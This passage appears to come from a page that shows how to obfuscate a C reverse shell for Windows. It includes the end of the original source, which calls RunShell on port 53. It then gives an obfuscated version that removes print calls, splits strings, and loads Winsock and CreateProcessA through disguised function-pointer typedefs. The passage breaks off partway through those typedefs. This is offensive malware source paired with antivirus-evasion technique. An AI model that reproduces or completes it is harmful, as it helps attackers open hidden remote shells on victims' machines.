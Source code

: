 ```c
        int port = 53;
        RunShell(host, port);
    }
    return 0;
} 
```


<u>Obfuscated version of the source code</u>:

	Progression:
	- Remove print functions and then split the strings and concatenate them.

```c
#include <winsock2.h>
#include <windows.h>
#include <ws2tcpip.h>
#include <stdio.h>
#define DEFAULT_BUFLEN 1024

typedef int (WINAPI* myNotWSAStartup)(
        WORD      wVersionRequired,
	    [out] LPWSADATA lpWSAData
);

typedef SOCKET WSAAPI (WINAPI* myNotWSASocketA)(
  [in] int                 af,
  [in] int                 type,
  [in] int                 protocol,
  [in] LPWSAPROTOCOL_INFOA lpProtocolInfo,
  [in] GROUP               g,
  [in] DWORD               dwFlags
);

typedef unsigned long (WINAPI* myNotinet_addr)(
  const char *cp
);

typedef u_short (WINAPI* myNothtons)(
  [in] u_short hostshort
);

typedef int WSAAPI (WINAPI* myNotWSAConnect)(
  [in]  SOCKET         s,
  [in]  const struct sockaddr *name,
  [in]  int            namelen,
  [in]  LPWSABUF       lpCallerData,
  [out] LPWSABUF       lpCalleeData,
  [in]  LPQOS          lpSQOS,
  [in]  LPQOS          lpGQOS
);

typedef int (WINAPI* myNotclosesocket)(
  [in] SOCKET s
);

typedef int (WINAPI* myNotWSACleanup)();

typedef BOOL (WINAPI* myNotCreateProcessA)(
  [in, optional]      LPCSTR                lpApplicationName,
  [in, out, optional] LPSTR                 lpCommandLine,
  [in, optional]      LPSECURITY_ATTRIBUTES lpProcessAttributes,
  [in, optional]      LPSECURITY_ATTRIBUTES lpThreadAttributes,
  [in]                BOOL                  bInheritHandles,
  [in]                DWORD                 dwCreationFlags,
```